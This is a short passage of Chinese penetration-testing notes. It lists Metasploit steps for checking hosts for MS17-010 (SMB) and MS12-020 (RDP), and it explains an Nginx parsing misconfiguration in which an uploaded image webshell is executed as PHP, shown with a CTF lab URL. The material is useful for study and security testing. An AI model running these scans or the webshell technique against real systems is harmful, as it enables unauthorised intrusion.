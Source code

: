 ```
msfconsole
use auxiliary/scanner/smb/smb_ms17_010
show options
set rhosts 172.16.100.76
exploit
```

#### MS12-020-远程桌面协议RDP远程代码执行漏洞

```
msfconsole
use auxiliary/scanner/rdp/ms12_020_check
set rhosts 192.168.178.128
run
```

### Linux

## Web服务器漏洞

### Nginx

#### Nginx解析漏洞

* 漏洞描述
  * nginx解析漏洞因为用户配置不当造成的漏洞。
  * 1.jpg/.php、1.jpg/.php，1.jpg会被当成php格式解析
* 漏洞利用

上传图片马

```
http://node4.buuoj.cn:26749/uploadfiles/e07db0b27893a41573453510ee2dceed.png/.php
```

不添加.php的时候为404 ![image](img/nginx-jiexi.png)
